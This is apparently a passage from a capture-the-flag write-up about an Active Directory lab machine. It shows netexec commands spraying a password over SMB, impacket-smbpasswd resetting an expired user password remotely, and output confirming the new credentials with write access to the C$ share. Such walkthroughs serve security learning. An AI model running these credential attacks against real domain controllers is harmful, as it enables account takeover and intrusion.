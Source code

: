```bash
netexec smb 10.10.68.111 -u users.list -p '<REDACTED>' --continue-on-success                
SMB     10.10.68.111    445    BABYDC    [-] baby.vl\Caroline.Robinson:<REDACTED> STATUS_PASSWORD_MUST_CHANGE 
```

A bit of research was enough to learn how to change a password that has expired.

<img src="/assets/img/baby/Untitled 1.png" alt="Untitled 1.png" style="width:800px;">

Source: [https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)

Successfully changed the password to a custom one.

```bash
impacket-smbpasswd baby.vl/Caroline.Robinson:'<REDACTED>'@10.10.68.111
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

New SMB password: 
Retype new SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

Yes sir! NetExec confirms that the new credentials are valid and that PS Remote access is granted. 

```bash
netexec smb 10.10.68.111 -u Caroline.Robinson -p 'Dusk3d123!' --shares
SMB         10.10.68.111    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.68.111    445    BABYDC           [+] baby.vl\Caroline.Robinson:Dusk3d123! 
SMB         10.10.68.111    445    BABYDC           [*] Enumerated shares
SMB         10.10.68.111    445    BABYDC           Share           Permissions     Remark
SMB         10.10.68.111    445    BABYDC           -----           -----------     ------
SMB         10.10.68.111    445    BABYDC           ADMIN$          READ            Remote Admin
SMB         10.10.68.111    445    BABYDC           C$              READ,WRITE      Default share
SMB         10.10.68.111    445    BABYDC           IPC$            READ            Remote IPC
SMB         10.10.68.111    445    BABYDC           NETLOGON        READ            Logon server share 
```